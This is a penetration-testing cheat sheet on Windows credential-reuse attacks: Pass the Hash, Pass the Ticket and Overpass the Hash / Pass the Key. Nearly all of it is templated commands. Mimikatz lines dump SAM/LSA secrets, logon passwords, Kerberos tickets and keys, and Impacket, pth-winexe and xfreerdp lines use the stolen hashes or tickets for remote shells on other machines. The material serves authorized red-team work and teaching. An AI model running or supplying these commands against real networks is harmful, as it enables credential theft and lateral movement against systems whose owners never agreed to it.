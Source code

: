 # Pass The Hash

## Pass the Hash

Use the hash to login in another machine as a local user without knowing its password. Works because NTLM hashes are static so if a user logs into different machines his hash will remain the same on each host.

* NTLM based
* Requires the SMB port to be reachable on the target
* The user/service must have admin rights on the target machine

```
lsadump::sam 
lsadump::lsa /inject /name:<user>
sekurlsa::logonpasswords
```

### Run on Windows

```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM or :NT> /run:<cmd>
```

### Run on Linux

```
pth-winexe -U <domain>/<user>%<NTLM> //<target ip> cmd

#impacket
smbexec.py <user>@<ip> -hashes <NTLM or :NT>
psexec.py <user>@<ip> -hashes <NTLM or :NT>
wmiexec.py <user>@<ip> -hashes <NTLM or :NT>

#rdp
xfreerdp /u:Administrator /pth:<ntlm> /d:<domain> /v:<target>
```

## Pass the Ticket

Loads a ticket in memory granting the current user access to the remote machine/service within the context of the current session.

* Kerberos based
* Alternative to PTH if NTLM authentication is disabled
* Can be exploited even if the current user/service is not an admin on the target machine

```
sekurlsa::tickets /export
```

### Run on Windows

```
kerberos::ptt <.krbi file>

.\PsExec.exe -accepteula \\<target host> <cmd>
dir \\<host>\c$
```

### Run on Linux

```
#convert and store the ticket file for impacket use
python ticket_converter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=<.ccache file path>

#start remote connection
python psexec.py <domain>/<user>@<host> -k -no-pass
python smbexec.py <domain>/<user>@<host> -k -no-pass
python wmiexec.py <domain>/<user>@<host> -k -no-pass
```

## OverPass the Hash / Pass the Key

Obtain a TGT ticket by providing a valid NTLM hash, AES keys, DES keys or password. The obtained TGT token can then be used to access other machines.

* Kerberos Based
* Alternative to PTH if NTLM authentication is disabled
* Can be exploited starting from NTLM, secret keys or password (see [password to NTLM](local-credentials/#ntlm-from-password))
* Can be exploited even if the current user/service is not an admin on the target machine
* Requests a new TGT, as such the attack is not limited to the tickets stored in memory

### Run on Windows

From AES/DES keys (Pass the Key)

```
sekurlsa::ekeys

sekurlsa::pth /user:<user> /domain:<domain> /aes128:<hash> /run:"<cmd>"
sekurlsa::pth /user:<user> /domain:<domain> /aes256:<hash> /run:"<cmd>"
sekurlsa::pth /user:<user> /domain:<domain> /des:<hash> /run:"<cmd>"
```

From NTLM (Overpass the hash)

```
lsadump::sam 
lsadump::lsa /inject /name:<user>
sekurlsa::logonpasswords

sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash> /run:"<cmd>"      #from NTLM
sekurlsa::pth /user:<user> /domain:<domain> /rc4:<NT hash> /run:"<cmd>"    #from NT
```

Pivoting

```
klist #verify the creation of ticket

.\PsExec.exe -accepteula \\<target host> <cmd>
dir \\<host>\c$
```

### Run on linux

```
python getTGT.py <domain_name>/<user_name> -hashes <NTLM hash>
python getTGT.py <domain_name>/<user_name> -hashes :<NT hash>
python getTGT.py <domain_name>/<user_name> -aesKey <AES>
python getTGT.py <domain_name>/<user_name>:<password>

export KRB5CCNAME=<ccache file>

#start remote connection
python psexec.py <domain>/<user>@<host> -k -no-pass
python smbexec.py <domain>/<user>@<host> -k -no-pass
python wmiexec.py <domain>/<user>@<host> -k -no-pass
```

